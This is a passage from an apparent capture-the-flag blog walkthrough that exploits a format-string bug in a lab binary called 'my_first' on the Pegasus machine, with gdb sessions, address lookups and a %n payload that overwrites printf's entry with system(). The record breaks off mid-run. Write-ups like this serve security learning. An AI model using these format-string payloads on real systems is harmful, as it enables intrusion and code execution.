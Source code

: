 [![peg8](https://trickster0.files.wordpress.com/2015/11/peg8.png)](https://trickster0.files.wordpress.com/2015/11/peg8.png)
Adter some testing i noticed that i dont need to input format strings on the first input... only the second one had the error. So what did i do here? i added some A's and some %x's to see if somewhere along the memory i managed to change an address and after 8 %x's we can see that the address now is 41414141 which in ascii is AAAA. so apparently we managed to change the memory address there. The system was running ASLR so i ran


>ulimit -s unlimited


after that i ran the program on gdb to figure out a few addresses like the system()'s address

[![peg9](https://trickster0.files.wordpress.com/2015/11/peg9.png)](https://trickster0.files.wordpress.com/2015/11/peg9.png)
next thing i had to find would be the printf's function address

[![peg10](https://trickster0.files.wordpress.com/2015/11/peg10.png)](https://trickster0.files.wordpress.com/2015/11/peg10.png)
i used objdump, nothing more to add here
next thing i did, was to create a small payload by using the program automatically and actually write the printf's address into the address that we previously changed into AAAAs. how do we do this you ask? well it is really simple we have this amazing format string called %n that will allow us to do it.Plus we before this part on our payload we specified the 8th position of the address. here is what happened

[![peg11](https://trickster0.files.wordpress.com/2015/11/peg11.png)](https://trickster0.files.wordpress.com/2015/11/peg11.png)
see? we wrote 4 on the address where we got the segfault so that is good now we need to change that address into the system() address that we have. lets start by getting the second half. we need to find in decimal 0x9060-0x4


>mike@pegasus:~$ python -c 'print 0x9060-0x4'
36956


i changed a little bit my next payload and ran gdb again to see if we succeeeded in chaniging the second half of the address


>mike@pegasus:~$ printf '1\n1\n\xfc\x9b\x04\x08%%36956u%%8$n' > payload
mike@pegasus:~$ gdb -q ./my_first 
Reading symbols from /home/mike/my_first...(no debugging symbols found)...done.
(gdb) r < payload 
Starting program: /home/mike/my_first < payload
WELCOME TO MY FIRST TEST PROGRAM
--------------------------------
Select your tool:
[1] Calculator
[2] String replay
[3] String reverse
[4] Exit

Selection: 
Enter first number: Enter second number: Error details: ��    
